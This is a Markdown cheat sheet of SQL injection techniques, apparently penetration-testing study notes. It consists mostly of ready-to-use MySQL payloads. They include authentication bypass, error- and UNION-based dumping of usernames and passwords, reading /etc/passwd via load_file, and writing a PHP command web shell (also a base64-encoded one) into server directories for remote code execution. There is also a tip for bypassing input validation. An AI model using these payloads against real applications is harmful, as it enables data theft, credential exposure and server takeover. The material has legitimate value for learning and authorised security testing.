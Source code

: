 # SQL Injection

**References:**

- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

**Key Concept:** We start with a baseline of expected output, then attempt to error the database or extract information based on deviations from this expected output. These deviations can include anything from an on-screen error, to entirely different HTTP response codes.

**Note:** We can try adding semicolons before comments in case commands are not working

## Methodology

### Identification

Once we realize SQLi is possible by erroring the site, the **first thing** we need to do is figure out how to do is **inject data in the query without breaking it.**

**Example entrypoints:**

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

**Note:** For long pages, simply scroll to the bottom of burp and monitor when the number of lines changes in the page.

We can now confirm existence with numerical/string comparison:

```mysql
# Confirm with numerical comparison
' OR 1=1 -- //
'
# Confirm with string comparison
' OR '1'='1' -- //
```

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

## Additional Concepts

UNION-based attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION-based example, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
999' UNION SELECT 1,@@version,3,4,5,6,7,8 -- //
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php' -- //
```

Requires a method of executing the file (LFI, CSRF, etc.)
